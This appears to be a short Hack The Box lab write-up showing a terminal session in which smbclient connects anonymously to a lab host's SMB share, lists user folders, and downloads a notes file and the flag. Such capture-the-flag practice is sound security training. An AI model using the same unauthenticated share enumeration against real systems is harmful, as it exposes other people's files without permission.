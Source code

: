# HACK-THE-BOCX-MACHINE-smbclient //10.129.95.55/WorkShares -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 11:22:01 2021
  ..                                  D        0  Mon Mar 29 11:22:01 2021
  Amy.J                               D        0  Mon Mar 29 12:08:24 2021
  James.P                             D        0  Thu Jun  3 11:38:03 2021

		5114111 blocks of size 4096. 1753956 blocks available
smb: \> get flag.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \flag.txt
smb: \> cd  Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 12:08:24 2021
  ..                                  D        0  Mon Mar 29 12:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 14:00:37 2021

		5114111 blocks of size 4096. 1753795 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Amy.J\> get .
NT_STATUS_FILE_IS_A_DIRECTORY opening remote file \Amy.J\.
smb: \Amy.J\> cd ..
smb: \> cd james.P
smb: \james.P\> ls
  .                                   D        0  Thu Jun  3 11:38:03 2021
  ..                                  D        0  Thu Jun  3 11:38:03 2021
  flag.txt                            A       32  Mon Mar 29 12:26:57 2021

		5114111 blocks of size 4096. 1753747 blocks available
smb: \james.P\> get flag.txt
getting file \james.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \james.P\> 

